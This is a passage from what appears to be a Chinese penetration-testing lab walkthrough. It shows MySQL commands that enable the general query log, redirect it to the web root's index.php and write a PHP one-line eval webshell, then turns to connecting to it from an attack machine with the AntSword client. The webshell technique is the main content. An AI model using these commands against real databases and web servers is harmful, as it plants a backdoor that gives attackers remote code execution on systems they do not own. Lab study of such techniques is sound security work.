 ![image-20220615163849389512-1655884104085348.png](img/Untitled.assets/68415f6dd0d37e45ff94544846849892.png)

显示没有开启，发现网站日志路径。

将日志开启并将一句话木马写入网站文件：

```
set global general_log = 'ON';       

set global general_log_file='/var/www/html/index.php'; 

select '<?php @eval($_POST["pass"]);?>';
```

![image-20220615172809419466-1655884105444386.png](img/Untitled.assets/01bd18fd55cc3251938f06c4f3dd7895.png)

回到`Win10攻击机`，使用蚁剑连接：
